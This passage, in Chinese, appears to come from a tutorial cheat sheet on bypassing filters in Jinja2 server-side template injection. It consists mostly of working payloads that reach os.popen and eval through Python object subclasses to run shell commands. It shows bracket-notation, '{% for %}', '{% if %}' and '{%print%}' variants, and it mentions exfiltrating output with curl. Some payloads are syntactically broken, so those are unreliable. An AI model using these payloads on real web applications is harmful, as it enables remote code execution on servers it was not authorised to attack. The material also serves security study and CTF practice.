 ```
{{().__class__.__base__.__subclasses__()[77].__init__.__globals__['os'].popen('ls /').read()}}


```

**利用中括号 [ ] 绕过**

如下示例：

```
{{''['__class__']['__bases__'][0]['__subclasses__']()[59]['__init__']['__globals__']['__builtins__']['eval']('__import__("os").popen("ls").read()')}}


```

等同于：

```
{{().__class__.__bases__.[0].__subclasses__().[59].__init__['__globals__']['__builtins__'].eval('__import__("os").popen("ls /").read()')}}


```

**这样的话，那么 `__class__`、`__bases__` 等关键字就成了字符串，就都可以用前面所讲的关键字绕过的姿势进行绕过了。**

### 过滤了大括号 `{{`

我们可以用 Jinja2 的 `{%...%}` 语句装载一个循环控制语句来绕过：

```
{% for c in [].__class__.__base__.__subclasses__() %}{% if c.__name__=='catch_warnings' %}{{ c.__init__.__globals__['__builtins__'].eval("__import__('os').popen('ls /').read()")}}{% endif %}{% endfor %}


```

也可以使用 `{% if ... %}1{% endif %}` 配合 `os.popen` 和 `curl` 将执行结果外带（不外带的话无回显）出来：

```
{% if ''.__class__.__base__.__subclasses__()[59].__init__.func_globals.linecache.os.popen('ls /' %}1{% endif %}


```

也可以用 `{%print(......)%}` 的形式来代替 `{{` ，如下：

```
{%print(''.__class__.__base__.__subclasses__()[77].__init__.__globals__['os'].popen('ls').read())%}


```

利用 `|attr()` 来 Bypass
---------------------
